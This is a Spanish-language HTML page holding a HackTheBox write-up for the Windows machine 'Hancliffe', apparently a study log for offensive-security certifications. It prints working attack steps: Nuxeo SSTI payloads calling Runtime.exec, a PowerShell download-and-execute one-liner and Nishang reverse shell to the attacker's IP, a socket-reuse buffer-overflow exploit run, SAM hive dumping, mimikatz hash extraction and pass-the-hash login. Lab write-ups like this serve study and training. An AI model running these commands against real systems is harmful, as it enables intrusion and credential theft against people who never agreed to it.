






<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Hancliffe</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Hancliffe" de HackTheBox

Caracteristicas:

- Windows  
- Difícil  
- Buffer overflow 
- Abusing URI Normalization
- Server Side Template Injection (SSTI) [NUXEO Vulnerability]
- Unified Remote 3 Exploitation (RCE)
- Decrypt Mozilla protected passwords
- Reversing EXE in Ghidra
- Buffer Overflow (Socket Reuse Technique) [AVANZADO]

Util en:

- Buffer 
- Overflow 
- OSED 
- OSCP (Intrusión) 
- eWPT 
- eWPTXv2 
- OSWE

        IP 10.10.11.115

Escaneo de puertos

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.115 

    PORT     STATE SERVICE VERSION
    80/tcp   open  http    nginx 1.21.0
    |_http-server-header: nginx/1.21.0
    |_http-title: Welcome to nginx!
    8000/tcp open  http    nginx 1.21.0
    |_http-server-header: nginx/1.21.0
    |_http-title: HashPass | Open Source Stateless Password Manager
    9999/tcp open  abyss?
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe: 
    |     Welcome Brankas Application.
    |     Username: Password:
    |   NULL: 
    |     Welcome Brankas Application.
    |_    Username:
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port9999-TCP:V=7.80%I=7%D=1/26%Time=61F2100C%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,27,"Welcome\x20Brankas\x20Application\.\nUsername:\x20")%r(GetReques

al lanzar nc a la ip con el puerto 9999 devuelve el siguiente mensaje

- nc 10.10.11.115 9999
Welcome Brankas Application.

visitamos la web de la pagina con el puerto 8000


podemos ver una web que genera contraseñas rellenando tres campos y en el puerto 80 podemos ver un servicio nginx


comenzaremos fuzzeando

- wfuzz -c (colorisado) --hc=404 (hide code ocultando el codigo 404) -t 200 (200 hilos para cada linea que compone el diccionario) -w /usr//share/wordlists/dirbuster/directory-list-2.3-medium.txt "http://10.10.11.115/nuxeo/FUZZ"

y entre los directorios encontramos /maintenance que redirecciona a /nuxeo/Maintenance/  tambien esta con / al final ,/maintenance/
por lo que sabemos, podemos suponer que nginx actúa como un proxy inverso y, dado que Nuxeo está basado en Java 
luego inenamos con

- wfuzz -c (colorisado) --hc=404   -t 200 -w /usr//share/wordlists/dirbuster/directory-list-2.3-medium.txt u "http://hancliffe.htb/maintenance/FUZZ"

salida:

    /index.jsp            (Status: 200) [Size: 714]
    /.xhtml               (Status: 401) [Size: 221]
    /.                    (Status: 200) [Size: 714]
    /.jsf                 (Status: 200) [Size: 117]
    /.seam                (Status: 401) [Size: 221]
    /.faces               (Status: 401) [Size: 221]

revisamos cada uno y en la seccion /.jsf 


vemos un mensaje de error faceles not found /maintenance/xhtml
Conociendo que es nginx y java buscamos en google y vemos dos cosas interesantes, una vulnerabilidad para el software de Nuxeo y un post donde habla de los ataques relacionados con
https://www.acunetix.com/blog/articles/a-fresh-look-on-reverse-proxy-related-attacks/
luego de revisar el post seguiremos con

- ffuf -u 'http://hancliffe.htb/maintenance/..;/FUZZ' -w /home/asdf/github/SecLists/Discovery/Web-Content/raft-small-files.txt -mc 200

que nos devuelve:

home.html               [Status: 200, Size: 2600, Words: 606, Lines: 120]
login.jsp               [Status: 200, Size: 8874, Words: 1322, Lines: 451]

vemos el home y el login en el cual el login en la seccion del footer podemos ver 

Copyright © 2001-2022 Nuxeo and respective authors. Nuxeo Platform   FT 10.2

Y por lo tanto confirmamos que es vulnerable a CVE-2018-16341 ya que es una versión inferior a la 10.3 
CVE-2018-16341: Ejecución remota de código de Nuxeo sin autenticación mediante inyección de plantilla del lado del servidor
https://github.com/mpgn/CVE-2018-16341

seguimos testeando con wfuzz

- sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  "http://10.10.11.115/nuxeo/FUZZ"

mientras en google buscamos el concepto abusing uri nomalization

[https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf]

Nginx off-by-slash 
 • Mostrado por primera vez a finales de 2016 HCTF - crédito a @iaklis
 • Un buen vector de ataque pero muy poca gente lo sabe.

continuaremos descargando el exploit de github 


Hay una inyección de plantilla del lado del servidor en la aplicación Java, lo que significa que si puedo incluir una cadena como ${-7+7}
en algún lugar donde se analizará como código, entonces puedo ejecutar Java y, por lo tanto, ejecutar el código de forma remota. 

para proba esto el repositorio sugiere visitar la URL: 

- http://127.0.0.1:8080/nuxeo/login.jsp/pwn$ { -7+7}.xhtml"



es funcional asi que modificamos el exploit que descargamos y en payloadsallthethinks vamos a la seccion de java 

- $ {T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

modificamos el para que haga ping a nuestra maquina

- $ {T(java.lang.Runtime).getRuntime().exec('ping 10.10.14.18')}

llegamos a la seccion Expression Language EL - Code Execution
y aqui rescatamos el codigo


// Method using Reflecmethod using reflection & Invoke

- $ {"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec('ping 10.10.14.18')}

luego urlencodeamos y ahora si nos detecta las trazas. listo tenemos capacidad de ejecucion remota de comandos, asi que entraremos con una power shell

Descargamos:

https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

hacemos wget al raw del mismo y rescatamos

- Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

modificamos ip y puerto por los que queramos, entonces en burp capturamos enviamos al forward 
decodeamos lo encodeado anteriormente con ctrl + shift + u y dentro de la seccion exec ponemos

- powershell -enc 

codificamos base 64 y lanzamos

- echo "IEX(New_Object Net.WebClient).downloadString('http://10.10.14.18/ps.ps1')" | iconv -t utf-16le | xxd | base64 -w 0; echo

descarga y ejecuta el archivo ps1, tenemos una reverse shell, buscamos la flag de user
una vez adenro verificamos permisos, vamos a desktop hacemos ls y vemos un link symbolico (.lnk) y un archivo server.bat
mienras seguimos revisando en paralelo descargaremos winpeas hacia la victima, y podemos ver que clara
tiene archivos de configuracion relacionados a firefox 

- use post/multi/gather/firefox_creds

Utilice Firepwd para descifrar y obtener una contraseña relacionada con el desarrollo. Ver al usuario también puede ver al usuario de desarrollo:

lclevy/firepwd: firepwd.py, una herramienta de código abierto para descifrar contraseñas protegidas de Mozilla
https://github.com/lclevy/firepwd

las credenciales que obtuvimos

decrypting login/password pairs http://localhost:8000:b'hancliffe.htb',b'#@H@ncLiff3D3velopm3ntM@st3rK3y*!'



uilizaremos la info recolectada para ir a la pagina en el puerto 8000 que recordemos es una pagina generadora de passwords y pondremos la informacion 
recuperada

    development
    hancliffe.htb
    #@H@ncLiff3D3velopm3ntM@st3rK3y*!

para que nos de la contraseña

    AMl.q2DHp?2.C/V0kNFU

usamos esto con evilwinrm 

- sudo evil-winrm -i 127.0.0.1 -u 'development' -p 'AMl.q2DHp?2.C/V0kNFU'

y estamos denro

Al ver la información relacionada con el usuario, podemos tener en cuenta el desarrollo remoto por lo que el puerto winrm 
también se reenvía y la contraseña generada se utiliza para iniciar sesión correctamente:
net user developmen y vemos que tiene acceso a remote management
asi que si tunelisamos con chisel el 5985 junto a evil winrm tendremos acceso a development
ahora para ver los pueros abieros de salida 

con esto vamos a tener una forma mas comoda de visualisar

- Get-NetTCPConnection -State Listen | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}} | FT -Property LocalAddress,localPort,PorcessName

ahora vamos a analizar los puertos 9512 9510 que son de RemoteServerWin
RemoteServerWin.exe es un archivo exe ejecutable que pertenece al proceso remoto unificado, desarrollado por Unified Intents AB 
el proceso RemoteServerWin.exe en Windows 10 es importante, se debe tener cuidado al trabajar con el 
RemoteServerWin.exe puede estar usando demasiado la CPU o la GPU. Si se trata de malware o virus, es posible que se esté ejecutando en segundo 
plano.

usamos las credenciales generadas anteriormente, primero renviando el puerto y luego con evilwinrm 
	

- portfwd add –l 5985 –p 5985 –r 127.0.0.1

- sudo evil-winrm -i 127.0.0.1 -u 'development' -p 'AMl.q2DHp?2.C/V0kNFU'



y estamos dentro somos hancliffe development, recorremos directorios y vamos a devapp.exe descargamos a nuestro directorio
con el descargador de archivos por defecto de evilwinrm, download ruta luego desde el atacante hacemos 

- strings  myfirstapp.exe 

y vemos una salida muy larga asi que procederemos a reversear con ghidra
asi que entramos a la parte del BOF 
lo analizamos con ghidra y ollydbg y encontramos varios datos interesantes. 



encontramos los datos de acceso de usuario a la aplicacion

username: "alfiansyah" 
password: "YXlYeDtsbD98eDtsWms5SyU="
fullname:   "Vickry Alfiansyah"
invitecode: "T3D83CbJkl1299"





Así que trataremos de realizar el método inverso y conseguir descifrar la password
en conclusion se descubro que la contraseña esta en base 64 y luego es encriptada en root47 la cual llevaremos a cyberchef para hacerle el reversing

https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)ROT47(47)&input=WVhsWWVEdHNiRDk4ZUR0c1dtczVTeVU9

asi que el resultado final es el siguiente:

K3r4j@@nM4j@pAh!T

podemos ver en el segundo encriptador que lleva a los valores tras este cifrado, es llamado atbash tambien se le llama metodo espejo
ya que consiste en cambiar la primera letra por la ultima la segunda por la penultima y asi.

las credenciales son correctas pero nos pide dos campos mas que no hemos encontrado full name y code.

A continuación tenemos que encontrar la forma de conseguir explotar la aplicación y vemos un posible punto a través del código de invitado, 
aunque parece que no disponemos el tamaño suficiente para nuestro payload, así que después de un rato buscando encontramos 
que es vulnerable al ataque de Reutilización de Socket y vemos dos posts bastante interesantes donde comentan y explican como hacer
este tipo de desbordamientos.

https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/

https://infosecwriteups.com/expdev-vulnserver-part-6-8c98fcdc9131

Así que generamos nuestro exploit, y lanzamos

    python2 exploit-socket-reuse.py
    Welcome Brankas Application.
    Username: 
    Password: 
    Login Successfully!
    FullName: 
    Input Your Code: 

y despues de varios intentos en nuestra shell atacante resivimos:

    nc -lvp 5555
    listening on [any] 5555 ...
    connect to [10.10.14.13] from hancliffe.htb [10.10.11.115] 64843
    whoami
    nt authority\system

una vez dentro buscamos la sam


- reg save hklm\sam c:\sam
- reg save hklm\system c:\system

y la deciframos con mimikatz

wine64 mimikatz.exe
- log hash.txt
- lsadump::sam /system:/home/asdf/current/keys/system /sam:/home/asdf/current/keys/sam

Y así dispondremos ya del hash de administrator.

buscamos flag de root

Como ya hemos conseguido también el hash del usuario administrator, accedemos con el mismo y buscamos nuestra flag

- evil-winrm.rb -i 127.0.0.1 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
 
    Evil-WinRM shell v3.3
    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
    
    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    hancliffe\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
    cd *Evil-WinRM* PS C:\Users\Administrator> cd Desktop
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
    
    
        Directory: C:\Users\Administrator\Desktop
    
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----        10/11/2021   5:40 PM           1575 AutoRestart.lnk
    -ar---         1/17/2022   7:21 AM             34 root.txt
    
 
- *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
exxxxxxxxxxxxxxxxxxxxxxxxxxxxxe
- Evil-WinRM* PS C:\Users\Administrator\Desktop> 

y terminada.


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido
a que en algunas de las máquinas que realice no tome los apuntes o no tome capturas de pantalla así que he decidido buscar varios writeups
y agregar lo que este mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía o cualquier error, 
Puedes contactarme a mi correo:

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>